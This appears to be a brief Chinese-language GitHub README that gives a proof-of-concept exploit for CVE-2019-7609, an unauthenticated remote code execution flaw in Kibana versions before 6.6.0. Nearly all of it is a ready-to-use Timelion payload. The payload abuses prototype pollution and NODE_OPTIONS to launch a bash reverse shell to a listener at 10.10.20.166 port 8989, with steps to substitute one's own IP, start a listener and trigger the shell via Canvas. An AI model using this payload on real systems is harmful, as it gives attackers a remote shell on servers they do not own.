


## CVE-2019-7609-kibana<6.6.0未授权远程代码命令执行

## POC
将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：  

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
  

然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞。  
  

